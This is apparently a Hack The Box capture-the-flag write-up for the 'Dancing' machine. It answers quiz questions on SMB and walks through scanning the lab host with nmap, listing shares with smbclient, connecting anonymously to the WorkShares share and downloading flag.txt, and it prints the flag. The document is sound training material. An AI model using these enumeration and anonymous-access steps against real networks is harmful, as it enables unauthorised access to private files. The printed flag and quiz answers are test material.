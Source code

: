 # Dancing
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Dancing
* Topic: [[SMB]]
* Difficulty: Very easy
* Date: 12-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---

## Tasks
1. What does the 3-letter acronym SMB stand for? 
 - **Server Message Block**
2. What port does SMB use to operate at? 
- **445**
3. What network communication model does SMB use, architecturally speaking? 
- **client-server model**
4. What is the service name for port 445 that came up in our nmap scan? 
- **microsoft-ds**
5. What is the tool we use to connect to SMB shares from our Linux distribution? 
- **smbclient**
6. What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share? 
- **-L**
7. What is the name of the share we are able to access in the end?
- **WorkShares**
8. What is the command we can use within the SMB shell to download the files we find? 
- **get**

---
## Solution:
First, we need to scan the target with `nmap`.

Command:

`nmap -n -sC -sV 10.129.229.124`

`-n`: No DNS look up (Good [OPSEC](https://en.wikipedia.org/wiki/Operations_security)).

`-sC`: Run scripts during scan.

`-sV`: Try to detect the version of running services.

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ nmap -sV 10.129.229.124
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-12 07:26 EDT
Nmap scan report for 10.129.229.124
Host is up (0.078s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap done: 1 IP address (1 host up) scanned in 12.82 seconds
```

It's running SMB on port 445. We can use `smbclient` to list te shares. 

Command:

`smbclient -L 10.129.229.124`

`-L`: Get a list of shares available on a host.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ smbclient -L 10.129.229.124
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.229.124 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Awesome, there is a share for us to poke around in. To access it, we need to follow a special syntax.

Command:

 `smblient \\\\10.129.229.124\\WorkShares`
 
`\\\\`: Equals to "\\\\" when interpreted, means root of directory.

`\\`: Equals to "\\" when interpreted, means new directory level.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ smbclient \\\\10.129.229.124\\WorkShares
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
```

`ls` to show the contents of the share.

```
smb: \> ls
  .                                   D        0  Tue Apr 12 11:37:11 2022
  ..                                  D        0  Tue Apr 12 11:37:11 2022
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021

                5114111 blocks of size 4096. 1751219 blocks available
```

`cd` to change directory into the James.P folder. 

```
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 04:38:03 2021
  ..                                  D        0  Thu Jun  3 04:38:03 2021
  flag.txt                            A       32  Mon Mar 29 05:26:57 2021

                5114111 blocks of size 4096. 1751219 blocks available
```

We can see the flag. We can use `get` to download the file via SMB.

Type `exit` to gracefully close the connection afterwards.

```
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \James.P\> exit
```

Now that we have the file, we just need to `cat` it.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ cat flag.txt
5f61c10dffbc77a704d76016a22f1664 
```

**Flag:** `5f61c10dffbc77a704d76016a22f1664`

---
**Tags:** [[HackTheBox]]